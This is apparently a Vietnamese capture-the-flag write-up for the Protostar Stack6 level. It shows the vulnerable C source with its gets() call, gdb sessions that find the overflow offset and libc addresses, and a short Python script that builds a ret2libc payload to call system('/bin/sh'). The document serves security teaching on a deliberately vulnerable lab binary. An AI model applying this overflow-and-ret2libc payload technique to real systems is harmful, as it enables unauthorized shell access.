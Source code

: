 # protostar-pwn

# Stack6

# Source code


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Mk đã có tham khảo và rút ra được 1 vài cách làm như sau

Chú ý đoạn code dưới đây 

```
  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }
```

đoạn code này nhằm mục đích chặn việc chúng ta trả về giá trị trong khoảng 0xbf000000 đến 0xbfffffff
bởi 

```
giả sử ret = 0xbf333333          <<== một giá trị ngẫu nhiên
ret & 0xbf000000== 0xbf000000
do đó kết quả sẽ luôn thu được 0xbf000000
```
Dựa theo gợi ý của đề bài

```
This level can be done in a couple of ways, such as finding the duplicate of the 
payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

```
Với bài này mình sẽ hướng tới phương pháp ret2libc (bởi nó dễ hiểu)

Bước đầu tiên phải đi tìm lượng padding để overflow vào eip

```
(gdb) disass main
Dump of assembler code for function main:
0x080484fa <main+0>:	push   %ebp
0x080484fb <main+1>:	mov    %esp,%ebp
0x080484fd <main+3>:	and    $0xfffffff0,%esp
0x08048500 <main+6>:	call   0x8048484 <getpath>
0x08048505 <main+11>:	mov    %ebp,%esp
0x08048507 <main+13>:	pop    %ebp
0x08048508 <main+14>:	ret    
End of assembler dump.
(gdb) b *main+14
Breakpoint 1 at 0x8048508: file stack6/stack6.c, line 31.
(gdb) r < /tmp/pay
payloadtmp
(gdb) r < /tmp/payloadtmp
Starting program: /opt/protostar/bin/stack6 < /tmp/payloadtmp
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) x/x $ebp
0x54545454:	Cannot access memory at address 0x54545454                 <<==== 'TTTT'

```
Sau đó tìm địa chỉ của >system() và >exit()
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>

```
tiếp đó là tìm /bin/sh
```
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh   
 
  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimal
```
cuối cùng chúng ta tìm điểm khởi đầu của thư viện /lib/libc-2.11.2.so

```
(gdb) info proc mappings
process 1944
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fde000 0xb7fe2000     0x4000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
  
```
Cuối cùng là ghép lại thành 1 file payload:

```
mport struct
pd = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTT"
sysadd = struct.pack("I",0xb7ecffb0)
exitadd = struct.pack("I",0xb7ec60c0)
binadd = struct.pack("I",0xb7e97000+0x11f3bf)
payload = pd + sysadd + exitadd + binadd
print payload

```



